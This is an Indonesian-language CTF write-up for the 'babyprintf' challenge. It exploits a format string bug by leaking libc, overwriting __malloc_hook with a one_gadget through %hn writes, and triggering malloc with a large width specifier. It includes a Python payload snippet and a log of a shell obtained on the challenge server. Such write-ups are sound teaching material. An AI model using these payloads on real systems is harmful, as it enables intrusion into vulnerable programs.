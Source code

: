 # babyprintf


## Analisa


Cek konfigurasi binary terlebih dulu:
```
$ file babyprintf; checksec babyprintf
babyprintf: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 3.2.0, BuildID[sha1]=f2e29b45b73a977083b2edc5d38a3359ca7a193c, not stripped
[*] '/home/tempest/projects/cscctf/2019/final/pwn/babyprintf/babyprintf'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```


Bug merupakan FSB:
```
$ ./babyprintf 
%p %p %p
0x7ffea2931310 0x7f787e49b8d0 0x7f787e1be081
```


Kita mempunyai 3 FSB sebelum program memanggil `exit`. Kesulitannya di sini adalah 3 FSB dan overwrite return address tidak memungkinkan.



## Eksploitasi


Hint yang diberikan merupakan "*Vector is in `vfprintf.c`*". Jika kita lihat source codenya `vfprintf`, terdapat snippet ini:
```C
if (width >= WORK_BUFFER_SIZE - EXTSIZ)
{
	/* We have to use a special buffer.  */
	size_t needed = ((size_t) width + EXTSIZ) * sizeof (CHAR_T);
	if (__libc_use_alloca (needed))
		workend = (CHAR_T *) alloca (needed) + width + EXTSIZ;
	else
	{
		workstart = (CHAR_T *) malloc (needed);
		...
	}
	...
}
```


Kita dapat menggunakan 3 FSB ini untuk:
1. leak libc
2. write `one_gadget` ke `__malloc_hook`
3. trigger `malloc` melalui width specifier `printf`



Kita bisa leak libc melalui return address dengan format specifier "*%43$p*". Untuk melakukan write ke `__malloc_hook`, perhatikan snippet berikut:
```Python
x = one_gadget & 0xffff
y = (one_gadget >> 2*8) & 0xffff
z = (one_gadget >> 4*8) & 0xffff
payload = "%{:d}x%24$hn%{:d}x%25$hn%{:d}x%26$hn".format(
	x,
	(y-x) & 0xffff,
	(z-y) & 0xffff,
).ljust(0x80,'\x00')
payload += p64(target)
payload += p64(target+2)
payload += p64(target+4)
payload = payload.ljust(0xf0,'\x00')
```


Layout ini dibuat kontras dengan 32-bit untuk mencegah `printf` berhenti karena null-bytes (semua address 64-bit mengandung null-bytes). Untuk perhitungan width dan size specifier seharusnya sama dengan 32-bit. Langkah terakhir adalah dengan menginput format dengan width specifier yang besar (setelah beberapa kali trial dan error seharusnya didapatkan angka > 65535).



Output script:
```
$ python exploit.py go
[*] '/home/tempest/projects/cscctf/2019/final/pwn/babyprintf/babyprintf'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/lib/x86_64-linux-gnu/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to babyprintf.problem.cscctf.com on port 10001: Done
[*] return address: 0x7fbe935ecb97
[*] libc address: 0x7fbe935cb000
[*] __malloc_hook: 0x7fbe939b6c30
[*] one_gadget: 0x7fbe936d538c
[*] Switching to interactive mode
$ cat /home/babyprintf/flag
CCC{printf_Use5_M4lL0C_wh4t_a_Sh0ck3r}
```
